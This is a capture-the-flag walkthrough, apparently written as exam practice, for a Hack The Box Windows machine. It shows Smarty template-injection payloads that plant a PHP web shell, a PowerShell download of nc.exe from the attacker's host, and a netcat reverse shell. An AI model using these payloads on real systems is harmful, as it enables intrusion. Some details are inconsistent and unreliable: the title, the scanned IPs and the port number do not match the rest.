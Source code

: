 # BountyHunter

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
nmap -v -sS -sV -sC -T4 -p- -oA bountyhunter-full-tcp 10.129.95.166

# Results
# Nmap 7.94SVN scan initiated Fri Jan 10 05:28:31 2025 as: nmap -v -sS -sV -sC -T4 -p- -oA smart-htb-tcp-full 10.129.228.130
Nmap scan report for 10.129.228.130
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.4.3)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.3
|_http-title: Smart | Login
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
# HTTP (Port 80)

Browsing to port 980 displays a registration page for a site called "Smart Technologies". From here it is possible to create an account and login. 

Once logged in thesite itself has very little functionality, in fact one of the only things you can do is edit your profile information, so this is where I put my focus. I noticed there is a standard 'Success' message when updating everything except the email address, where you're given feedback about a notification being created.

![image](https://github.com/user-attachments/assets/bb4d9eb7-2340-4e08-918e-2b2de757e482)

At the top of the page there is a notifcation button which shows a notification regarding the updated email address, the message appears to be templated with the email adress entered so naturally my focus goes to a potential Template Injection.

```text
# Notification Text
We have seen that your email has recently changed to 1. If this is not intended please contact admin@smart.htb
```

Using the basic template injection string '{5*5}' I am able to confirm template injection is present, the new text in the notification returns 25. I am not injecting into the notification template via the email update functionality. 

A good way to determine which template engine you're dealing with it to follow the following guide:

![image](https://github.com/user-attachments/assets/bafb5775-844e-428c-bd5e-6a48a840486d)

By following these steps I could determine I'm injecting into the Smarty Template Engine (hence the name of the box).

If there was any doubt, the following error confirmed Smarty is used:
![image](https://github.com/user-attachments/assets/dc46e9bb-2db8-4389-9174-f9152febfe9a)

Using the Smarty Docs for interesting function I discover {php}{/php}. These tags allow us to inject php inbetween, this should make getting a web shell trivial, and it was. 

I injected the following payload:

```bash
{php} file_put_contents("c:\\xampp\\htdocs\\s.php",'<?php echo exec($_GET["0"]);?>');
{/php}
```

And called it using:

```text
curl http://smart.htb/s.php?0=dir
```

This returns the current directory as the OS is Windows, We have successfully created a web shell. 

To create a reverse shell I wanted to move nc.exe over to the target, remembering to move the Windows executable and not the standard Linux nc I'm used to dealing with! I use Powershell wget for this. With a web server set up hosting nc.exe on my attack machine the following payload is sent to the web shell to retrirve the exe. 

```bash
http://smart.htb/s.php?0=powershell%20wget%20http://10.10.14.5:8081/nc.exe%20-outfile%20nc.exe
```

A hit on my webshell shows the file was retrieved:

```bash
┌──(kali㉿kali)-[~/…/HTB/boxes/smart/web-server]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.130 - - [10/Jan/2025 09:04:01] "GET /nc.exe HTTP/1.1" 200 -
```

The payload used to connect back to my listener on my target:

```bash
http://smart.htb/s.php?0=nc.exe%2010.10.14.5%2080%20-e%20cmd.exe
```

Below is the caught reverse shell from the Windows target:

![image](https://github.com/user-attachments/assets/07e1fc42-f198-42e3-b81f-bc065ea648fa)

From here I can browse the file system and get the user flag.

![image](https://github.com/user-attachments/assets/42aca482-360b-4613-9083-451e3b6f62be)

This machine was done during prep for the OSWA exam, and therefore I didn't continue with the Priv Esc which is outside the scope of the course, I will finish this box at a future time. 
